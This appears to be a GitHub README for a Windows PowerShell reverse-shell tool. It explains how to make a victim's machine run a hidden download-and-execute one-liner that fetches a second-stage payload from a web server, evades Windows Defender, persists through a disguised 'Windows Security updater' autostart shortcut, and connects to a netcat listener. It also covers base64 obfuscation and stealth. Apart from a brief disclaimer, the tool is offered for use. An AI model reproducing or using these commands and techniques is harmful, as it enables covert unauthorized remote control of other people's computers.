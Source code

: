 # Windows Reverse Shell
 
DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use.


## Description

This software can be used to gain a remote shell on an external Windows-system that supports Powershell (Windows 7 and later). It works by you executing an initial payload, which connects to a server containing the actual/second stage payload. This will circumvent Windows defender.

As soon as the script is injected, it will constantly loop and try to connect to your system. Start your listener and wait a maximum of 10 seconds for the remote shell to connect. Once disconneced, you will not get to connect to it again. You can enable Autostart to get another connection once the "client" restarts his pc.

Despite the script trying to remove its traces (from autostart etc), i did not check if windows (event) logs pick up on this. So please dont do things you shouldnt be doing.

## Configuration

You can either edit "payloadtemplate.ps1.txt" and hardcode what are currently placeholders (`%autostart%`, `%ip%` & `%port%`) to place the file anywhere on the internet and not have to use an ip/domain that belongs to you (because it will show in the taskmanager) - or you use script.php on a webserver of your choice and dynamically generate payloads without changing anything.

For the latter option, just place `script.php` and `payloadtemplate.ps1.txt` next to each other on a webserver and make sure PHP is actually allowed. Some cheap hosts have it disabled.

## Usage

You need to modify the code the "client" runs so their terminal can build a connection to yours.

`powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://myurl.com/script.php?i=xxx.xxx.xxx&p=xxxx')"`

To create a layer of obfuscation, you can encrypt this string in base64 on sites [like these](https://raikia.com/tool-powershell-encoder/). Make sure to read the notes down below!

You can listen to the shell by using `nc -nlvp PORT`. You need to have nc (netcat) installed and change `PORT` to whatever port you made the "client" ping to.

### Arguments

script.php has 2 required arguments and one optional:
- i -> the ip adress the client sends the terminal data to (your pc/server). REQUIRED
- p -> the port the clients terminal tries to connect to (your pc/server). REQUIRED
- a -> weather we write the script to the clients autostart (does not require a value). OPTIONAL

#### About autostart

Since we do not have Admin priviliges, we can not edit the registry or place the payload into the Autostart folder. We need to find a folder where we can place files to and then create a shortcut into the autostart folder. For some reason shortcuts are allowed. **This however will open up a notification for a few seconds that this program is now enabled on boot.** Other than that, you can still find the file manually and you can also see it in the taskmanager under "autostart" as `Windows Security updater.cmd` with no icon. If you want to hide it a little better, get admin rights and figure something out or compile the cmd file to an exe on the clients pc and add an icon and meta data.

If you read "NOTES" you might want to disable autostart on a client that its already enabled on. Just connect to the client and execute the payload again but this time without the autostart argument and on a different port. Close your current session, listen to the new port and once connected, type `exit`. This will remove all traces of the autostart and terminate all running processes.

## NOTES:

As long as the the payload is running and searchinf for a shell, you can see the url to the server if you really search for it in the taskmanager. If you have obfuscated the command into base64, you will still be able to the the decoded url in the taskmanager.

If you execute the payload, the taskmanager will list the powershell task till you connect to it. It gets terminated once the shell terminates. If you have enabled autostart in the payload, the client will **always** run this process. So this might not be what you want when trying to be stealthy. Read in "About autostart" how to disable it again.

## DEMO:
![](display.gif)